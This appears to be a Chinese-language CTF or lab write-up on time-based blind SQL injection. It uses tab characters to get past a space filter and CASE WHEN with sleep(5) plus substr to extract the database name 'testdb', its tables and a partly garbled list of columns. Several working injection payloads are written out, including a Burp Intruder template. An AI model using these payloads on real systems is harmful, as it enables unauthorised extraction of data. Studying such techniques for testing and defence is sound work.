




# sql
测试'闭合
1'_#
_处fuzz

被过滤,可以用substr from to,盲注,
或者是用tab代替空格过滤

测得列数为2

最终使用时间注入casewhen(下面之所以不测库,表的长度是因为,BP的intruder发送的包没有符合的字符的话是不会卡顿的,)

响应不准确,但就在这几个之中,可以将线程调为1,就几乎只有一个答案(fuzz建议为数字和字母一起)

测测有几个数据库
SELECT COUNT(*) FROM information_schema.schemata;


```
1'	or	case	when	length(database())=6	then	sleep(5)	else	0	end;#
```
数据库长度为6,响应时间为5
首字母:
```
1'	or	case	when	substr(database()from	1	for	1)='t'	then	sleep(5)	else	0	end;#
```
依次可得,数据库为:testdb

不测别的库,
直接测表
```
1'	or	case	when	substr((select	table_name	from	information_schema.tables	where	table_schema='testdb'	limit	1	offset	0)from	1	for	1)='§0§'	then	sleep(5)	else	0	end;#
```
testdb_check(之前测试错了,记得fuzz加上_,花了我很多时间操)

testdb库下:
testdb_check
user
:username
:password
:host
:user
:password
:select_priv
:insert_priv
:update_priv
:delete_priv
:reload_priv
:shutdown_priv
:procss_priv
:file_priv
:grant_priv
:refer
:index_priv
:alhow
:sup
:creat
:loc
:exec
:rep
:re  
:c
:s
:c
:alt
:c
offset 31:e
:t
:c
:d
:s
:s
:x509(?可疑)
:x5
:m
:m
:m
:m
:p
